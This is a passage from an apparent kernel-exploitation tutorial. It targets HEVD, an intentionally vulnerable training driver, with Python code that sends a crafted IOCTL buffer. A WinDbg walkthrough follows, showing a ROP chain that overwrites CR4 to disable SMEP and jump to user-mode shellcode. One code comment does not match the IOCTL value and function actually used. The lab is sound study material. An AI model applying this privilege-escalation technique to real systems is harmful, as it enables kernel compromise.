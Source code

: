```python
    0,                                  # dwShareMode
    None,                               # lpSecurityAttributes
    0x3,                                # dwCreationDisposition
    0,                                  # dwFlagsAndAttributes
    None                                # hTemplateFile
)

# 0x002200B = IOCTL code that will jump to TriggerArbitraryOverwrite() function
print "[+] Interacting with the driver..."
kernel32.DeviceIoControl(
    handle,                             # hDevice
    0x222003,                           # dwIoControlCode
    input_buffer,                       # lpInBuffer
    input_buffer_length,                # nInBufferSize
    None,                               # lpOutBuffer
    0,                                  # nOutBufferSize
    byref(c_ulong()),                   # lpBytesReturned
    None                                # lpOverlapped
)
```

Let's take a look in WinDbg.

As you can see, we have hit the `ret` we are going to overwrite.

<img src="{{ site.url }}{{ site.baseurl }}/images/64_01.png" alt="">

Before we step through, let's view the call stack- to see how execution will go in the future

`k`

<img src="{{ site.url }}{{ site.baseurl }}/images/64_02.png" alt="">

__Open the image above in a new tab if you are having trouble viewing__.

To help better understand the output of the call stack, the column `Call Site` is going to be the memory address that is executed. The `RetAddr` column is where the `Call Site` address will return to when it is done completing.

As you can see, the compromised `ret` is located at `HEVD!TriggerStackOverflow+0xc8`. From there we will return to 0xfffff80302c82544, or `AuthzBasepRemoveSecurityAttributeValueFromLists+0x70`. The next value in the `RetAddr` column, is the intended value for our CR4 register, 0x00000000000506f8. 

Recall that a `ret` instruction will load RSP into RIP. Therefore, since our intended CR4 value is located on the stack, technically our first ROP gadget would "return" to 0x00000000000506f8. However, the `pop rcx` will take that value off of the stack, and place it into RCX. Meaning we do not have to worry about returning to that value, which is not a valid memory address.

Upon the `ret` from the `pop rcx` ROP gadget, we will jump into the next ROP gadget, `mov cr4, rcx`, which will load RCX into CR4. That ROP gadget is located at 0xfffff80302d87552, or `KiFlushCurrentTbWorker+0x12`. To finish things out, we have the location of our user mode code, at 0x0000000000b70000.

After stepping through the vulnerable `ret` instruction, we see we have hit our first ROP gadget.
